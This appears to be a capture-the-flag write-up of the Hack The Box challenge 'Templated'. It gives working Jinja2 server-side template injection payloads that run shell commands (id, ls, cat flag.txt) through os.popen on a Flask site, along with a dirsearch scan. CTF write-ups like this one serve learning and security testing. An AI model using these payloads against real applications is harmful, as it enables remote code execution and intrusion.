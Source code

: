 # Templated

{% raw %}
This is a write up to the Hack The Box challenge Templated which exploits vulnerabilities in SSTI (server side template injection)

The front page of the site has this.

![front page](./frontpage.PNG)

This meant the page was templated using flask web frame work and jinja2 web templating.

To start I initially wanted to check if I could dirsearch some of the pages to see if there was a page I could go strait to aides from the home page.

```bash
python3 dirsearch.py -u http://134.209.190.86:32661/
 ```
This returned every site as 200 OK.

When visiting one of the pages it returned it as a 404, this is pretty interesting.
This means the 404 pages are possibly being templated.

A quick search on the internet meant we can find some exploits on flask and jinja2.

This is the link found: https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

In this challenge we could edit the URL so I went down the **RCE Bypassing as much as i possibly can** heading and found this command:
```
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
This will return the current user on the page.

![Response to edited url](./URL-change-response.PNG)

Wow! we are root!

now try this command:

```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -a').read()}}
```
![Response to edited url second time](./URL-Change-Response2.PNG)

looking at the files returned, we can just cat flag.txt as that will contain our flag using:

```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}
```

which will return a flag where the page name normally is.
{% endraw %}
